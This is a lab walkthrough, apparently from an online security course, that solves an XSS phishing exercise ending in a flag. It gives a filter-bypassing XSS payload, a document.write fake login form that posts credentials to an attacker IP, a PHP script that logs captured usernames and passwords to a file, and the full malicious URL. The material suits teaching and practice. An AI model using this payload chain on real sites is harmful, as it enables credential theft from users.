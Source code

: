# Phishing

### Try to find a working XSS payload for the Image URL form found at '/phishing' in the above server, and then use what you learned in this section to prepare a malicious URL that injects a malicious login form. Then visit '/phishing/send.php' to send the URL to the victim, and they will log into the malicious login form. If you did everything correctly, you should receive the victim's login credentials, which you can use to login to '/phishing/login.php' and obtain the flag.

In many online forums and web applications, there are opportunities to manipulate how a page displays content through a technique known as Cross-Site Scripting (XSS). XSS is a security vulnerability that allows an attacker to inject malicious scripts into web pages viewed by other users. When we attempt to use a basic XSS payload, we might find that it doesn’t execute as expected, often resulting in an error icon that indicates a broken image link. This is a common issue when the application has security measures in place to prevent such injections.

<figure><img src="../../../.gitbook/assets/Screenshot from 2024-10-11 22-30-03 (3).png" alt=""><figcaption></figcaption></figure>

### Step 1: Understanding the Target Application

1. **Identify the Input Field**: Locate the input field where user input is accepted (e.g., an image URL input).
2. **Analyze the Output**: Use browser developer tools (F12) to inspect how your input is rendered in the HTML.
   * {% code overflow="wrap" %}
     ```html
     <html lang="en">
     <body style="background-color: #141d2b; font-family: sans-serif; color: white;">
         <!-- --SNIP-- -->
         <img src='test'>
     </body>
     </html>
     ```
     {% endcode %}

### Step 2: Initial Payload Testing

1. **Basic XSS Payload**: Start with a simple payload:

```markup
<script>alert(1);</script>
```

* Input this into the image URL field and submit.
* If the alert box appears, you have confirmed an XSS vulnerability.

2. **Check for Output Encoding**: If the payload does not execute, check for HTML entities (e.g., `&lt;` for `<`).

### Step 3: Crafting a Working Payload

1. **Bypass Filters**: If basic payloads are blocked, try variations:
   * Use alternative tags or attributes;
   * Incorporate Special Characters:&#x20;

```html
'><script>alert(1);</script>
```

<figure><img src="../../../.gitbook/assets/Screenshot from 2024-10-11 22-32-28 (2).png" alt=""><figcaption></figcaption></figure>

2. **Inspecting the HTML Output**: After submitting your payload, view the page source to see how your input is rendered.

### Step 4: Developing the Phishing Payload

1. **Create a Login Form**: Use `document.write()` to inject the phishing form:

{% code overflow="wrap" %}
```html
document.write('<h3>Please login to continue</h3><form action=http://YOUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```
{% endcode %}

2. **Remove Existing Elements**: To make the phishing form more convincing, remove the original input field:

```javascript
document.getElementById('urlform').remove();
```

3. **Combine the Code**: Your final payload might look like this:

{% code overflow="wrap" %}
```javascript
document.write('<h3>Please login to continue</h3><form action=http://YOUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove()
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Step 5: Setting Up the Listener

1. **Using PHP**: Create a PHP script to log the credentials:

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://YOUR_SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

* Save this as `index.php` and run a PHP server:

```bash
sudo php -S 0.0.0.0:80
```

### Step 6: Executing the Attack

1. **Craft the Malicious URL**: Combine the target URL with your payload:

{% code overflow="wrap" %}
```html
http://YOUR_SERVER_IP/phishing/index.php?url='><script>document.write('<h3>Please login to continue</h3><form action=http://10.10.14.32><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove()</script>;<!--

```
{% endcode %}

2. **Send the URL**:

<figure><img src="../../../.gitbook/assets/Screenshot from 2024-10-11 23-24-24 (2).png" alt=""><figcaption></figcaption></figure>

2. **Capture Credentials**: When a victim logs in, their credentials will be sent to your server, and you can check `creds.txt` for the captured information.

<figure><img src="../../../.gitbook/assets/Screenshot from 2024-10-11 23-25-12 (2).png" alt=""><figcaption></figcaption></figure>

### Step 7: Test the captured the credentials

1. Go to http://SERVER\_IP/phishing/login.php and enter the captured credentials to retrieve the flag:

<figure><img src="../../../.gitbook/assets/Screenshot from 2024-10-11 23-25-47 (1).png" alt=""><figcaption></figcaption></figure>











